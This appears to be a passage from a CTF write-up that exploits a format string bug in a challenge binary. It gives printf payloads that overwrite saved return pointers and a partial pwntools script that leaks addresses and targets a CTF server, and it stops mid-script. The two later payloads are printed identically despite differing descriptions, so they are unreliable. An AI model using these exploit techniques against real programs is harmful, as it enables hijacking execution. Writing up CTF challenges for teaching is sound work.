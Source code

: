 Now that we’re able to trigger the loop, the second format string loop would be used to:
- Overwrite the 10th param last byte with `0xed` again, so that the `go()` will be looped again. Notes that the 10th param is our crafted gadget from the previous loop.
- Overwrite the 6th param <strong>pointed</strong> address last byte with 0xf8, so that the 8th param will point to `0x007fffffffdbf8` instead of `0x007fffffffdbe0`.
- Overwrite the 8th param <strong>pointed</strong> address two last bytes with our two last bytes of the calculated win address (8th param is pointing to the saved return pointer of main() method which is stored in `0x007fffffffdbf8`).
The second payload will be `%c%c%c%c%100x%hhn%133x%10$hhn%51732x%8$hn`.
Now, on the final loop, the last format string loop would be used to:

- Overwrite the 6th param <strong>pointed</strong> address last byte with `0xf8+2`, so that the 8th param will point to `0x007fffffffdbfa` instead of `0x007fffffffdbe0`. We’re trying to overwrite the third last byte.
- Overwrite the 8th param <strong>pointed</strong> address last bytes with our third LSB of the calculated win address.

The final payload will be `%c%c%c%c%100x%hhn%133x%10$hhn%51732x%8$hn`. Because we didn’t overwrite the saved return pointer of `go()`, after the `printf` got executed, it will continue the normal flow, and when the main() method is returned, it will return to the shell.

Full script

```js 
from pwn import *
from pwn import p64, u64, p32, u32

context.arch = 'amd64'
context.encoding = 'latin'
context.log_level = 'INFO'
warnings.simplefilter("ignore")

libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so')
elf = ELF('./chal')

while True:
    if args.LOCAL:
        r = process(['./chal'], env={})
        if args.PLT_DEBUG:
            gdb.attach(r, gdbscript='''
            b *go+47
            ''')
    else:
        r = remote('printf.ctf.maplebacon.org', 1337)

    # Assuming that the address of the return pointer of go() LSB is 0x38
    # For local testing, turn off ASLR to make it easier to test
    bruteforce_stack_lsb = 0x38

    # The LSB of set() line which do 'CALL go'
    call_go_lsb = 0xed

    # Payload notes:
    # - Overwrite the LSB of saved rbp of ready() to point to the saved return pointer of go()
    # - Overwrite the LSB of saved return pointer of go() to set()+13 (so that it will call go() again)
    # - Also try to leak the pie base, libc base, and LSB of the stack address
    # After executing the payload, if our bruteforced lsb is correct, we will back to the go() function again
    payload = f'%c%c%c%c%c%c%{bruteforce_stack_lsb-6}x%hhn%{call_go_lsb-bruteforce_stack_lsb}x%hhn||%6$p.%7$p.%13$p'.encode()
    print(f'First payload: {payload}')
    r.sendline(payload)
    out = r.recvline().strip().split(b'||')[1].split(b'.')
    stack_addr = int(out[0][-2:], 16)
    leaked_pie = int(out[1], 16)
```